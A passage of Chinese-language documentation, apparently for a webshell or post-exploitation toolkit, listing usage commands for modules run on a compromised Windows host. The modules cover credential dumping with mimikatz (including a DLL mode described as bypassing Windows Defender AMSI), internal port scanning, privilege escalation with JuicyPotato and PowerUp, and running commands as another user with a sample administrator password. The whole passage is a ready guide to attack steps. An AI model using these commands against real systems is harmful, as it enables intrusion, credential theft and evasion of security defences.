 ```
`Usage：#mimikatz [exec_type] [username] [password] [domain] [custom_command]``C:\Windows\Temp> #mimikatz ps1``C:\Windows\Temp> #mimikatz exe``C:\Windows\Temp> #mimikatz dll    //Bypass Windows Defender AMSI`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

#### #net_portscan

使用常规套接字进行端口扫描，支持对单/多IP进行扫描

```
`Usage：#net_portscan hosts [ports] [custom_arguments]``C:\Windows\Temp> #net_portscan 192.168.1.108,192.168.1.120``C:\Windows\Temp> #net_portscan 192.168.1.0/24 '445' ' -T 5 '`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

#### #privesc_juicy_potato

使用Juicypotato进行权限提升，执行类型支持：exe、reflective_dll（默认）

```
`Usage：#privesc_juicy_potato cmd [exec_type] [clsid] [custom_shellcode_path]``C:\Windows\Temp> #privesc_juicy_potato 'C:\ProgramData\64.exe' 'reflective_dll' '{752073A1-23F2-4396-85F0-8FDB879ED0ED}'`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

#### #privesc_powerup

运行Powerup模块检测privesc所有错误配置，主要用于寻找可用于权限提升的脆弱Windows服务

```
`Usage：#privesc_powerup [username] [password] [domain] [custom_command]``C:\Windows\Temp> #privesc_powerup`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

#### #runas

以特定用户身份运行cmd.exe / c

```
`Usage：#runas os_command username password [domain] [process_timeout_ms] [logon_type]``C:\Windows\Temp> #runas whoami administrator pass!@#123`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)
